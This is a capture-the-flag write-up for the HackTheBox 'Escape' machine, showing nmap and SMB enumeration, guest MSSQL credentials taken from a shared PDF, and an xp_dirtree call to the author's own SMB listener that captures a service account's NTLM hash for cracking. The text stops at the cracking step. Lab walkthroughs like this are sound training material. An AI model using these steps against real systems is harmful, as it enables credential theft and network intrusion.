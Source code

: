### Escape HackTheBox

### Difficulty = Medium

### IP Address = 10.129.157.76

Nmap Scan:

```
─$ nmap -sCV -A 10.129.157.76 -p53,88,135,139,389,445,464,593,636,1433,3269,5985,9389 -oN nmapscan -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-26 18:04 WAT
Nmap scan report for 10.129.157.76
Host is up (0.27s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-02-27 01:04:59Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-02-27T01:06:33+00:00; +7h59m59s from scanner time.
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.sequel.htb
| Not valid before: 2022-11-18T21:20:35
|_Not valid after:  2023-11-18T21:20:35
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-02-27T01:06:28+00:00; +7h59m56s from scanner time.
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.sequel.htb
| Not valid before: 2022-11-18T21:20:35
|_Not valid after:  2023-11-18T21:20:35
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: sequel
|   NetBIOS_Domain_Name: sequel
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: sequel.htb
|   DNS_Computer_Name: dc.sequel.htb
|   DNS_Tree_Name: sequel.htb
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-02-26T23:07:12
|_Not valid after:  2053-02-26T23:07:12
|_ssl-date: 2023-02-27T01:06:33+00:00; +7h59m59s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-02-27T01:06:31+00:00; +7h59m59s from scanner time.
| ssl-cert: Subject: commonName=dc.sequel.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.sequel.htb
| Not valid before: 2022-11-18T21:20:35
|_Not valid after:  2023-11-18T21:20:35
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf        .NET Message Framing
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| ms-sql-info: 
|   10.129.157.76:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb2-time: 
|   date: 2023-02-27T01:05:45
|_  start_date: N/A
|_clock-skew: mean: 7h59m58s, deviation: 1s, median: 7h59m57s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 105.62 seconds
```

I'll add the domain name to my `/etc/hosts` file

```
└─$ cat /etc/hosts | grep sequel                     
10.129.157.76   sequel.htb dc.sequel.htb
```

From the scan we know that this is a windows box and its running an active directory environment

I'll start with ldap but i wasn't able to get anything from using nmap scripting engine for ldap

```
└─$ nmap --script "*ldap*" -p389,636 10.129.157.76 -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-26 18:11 WAT
Nmap scan report for sequel.htb (10.129.157.76)
Host is up (0.28s latency).

PORT    STATE SERVICE
389/tcp open  ldap
|_ldap-brute: ERROR: Script execution failed (use -d to debug)
636/tcp open  ldapssl

Nmap done: 1 IP address (1 host up) scanned in 90.07 seconds
```

Now lets move on to smb

#### SMB Enumeration

I'll check if we can list our shares anonymously

```
└─$ smbclient -L 10.129.157.76
Password for [WORKGROUP\mark]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Public          Disk      
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.157.76 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Ok cool we can now i'll connect to each share

```
└─$ smbclient //10.129.157.76/NETLOGON
Password for [WORKGROUP\mark]:
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*
smb: \> q
                                                                                                        
┌──(mark㉿haxor)-[~/Desktop/B2B/HTB/Escape]
└─$ smbclient //10.129.157.76/Public  
Password for [WORKGROUP\mark]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Nov 19 12:51:25 2022
  ..                                  D        0  Sat Nov 19 12:51:25 2022
  SQL Server Procedures.pdf           A    49551  Fri Nov 18 14:39:43 2022

                5184255 blocks of size 4096. 1315642 blocks available
smb: \> mget *
Get file SQL Server Procedures.pdf? y
getting file \SQL Server Procedures.pdf of size 49551 as SQL Server Procedures.pdf (45.7 KiloBytes/sec) (average 45.7 KiloBytes/sec)
smb: \> q
                                                                                                        
┌──(mark㉿haxor)-[~/Desktop/B2B/HTB/Escape]
└─$ smbclient //10.129.157.76/SYSVOL
Password for [WORKGROUP\mark]:
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*
smb: \> q
                                                                                                        
┌──(mark㉿haxor)-[~/Desktop/B2B/HTB/Escape]
└─$ 
```

Since we're given a sql procedure pdf file lets check it out

I'll check our the metadata of the file first 

```
└─$ exiftool SQL\ Server\ Procedures.pdf 
ExifTool Version Number         : 12.44
File Name                       : SQL Server Procedures.pdf
Directory                       : .
File Size                       : 50 kB
File Modification Date/Time     : 2023:02:26 18:18:02+01:00
File Access Date/Time           : 2023:02:26 18:18:01+01:00
File Inode Change Date/Time     : 2023:02:26 18:18:02+01:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 2
Creator                         : Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) obsidian/0.15.6 Chrome/100.0.4896.160 Electron/18.3.5 Safari/537.36
Producer                        : Skia/PDF m100
Create Date                     : 2022:11:18 13:39:43+00:00
Modify Date                     : 2022:11:18 13:39:43+00:00
```

Now lets read it 
![image](https://user-images.githubusercontent.com/113513376/221426011-72006f6c-bbeb-499c-a691-6222d84f074e.png)
![image](https://user-images.githubusercontent.com/113513376/221426019-8cb35945-daad-4ce3-a621-a383c5ba0cc3.png)

With that we know that we looted cred and users from it

```
ryan
Ryan
tom
Tom
brandon.brown


* Cred *
PublicUser:GuestUserCantWrite1
```

We know that we can access the mssql server running on the host using the cred `PublicUser:GuestUserCantWrite1`

#### Enumerating MSSQL 

We can connect to it using `impacket-mssqlclient`

But while i tried using impacket-mssqlclient i had some library issues and coudln't fix it 

So i decided to use `sqsh`

```
└─$ sqsh -S sequel.htb -U PublicUser -P GuestUserCantWrite1
sqsh-2.5.16.1 Copyright (C) 1995-2001 Scott C. Gray
Portions Copyright (C) 2004-2014 Michael Peppler and Martin Wesdorp
This is free software with ABSOLUTELY NO WARRANTY
For more information type '\warranty'
1> 
```

Now that i'm connected i'll try to see if i can access external shares which will lead to ntlm hash theft 🤓

First i'll set up an smbserver then run the command

```
xp_dirtree '\\10.10.15.124\share'  
```

Here's the command 
![image](https://user-images.githubusercontent.com/113513376/221429699-f0bbc811-584b-4060-a44b-cfb23f300455.png)

We now have the hash for user sql_svc 

I'll save it in a file and brute force using JTR

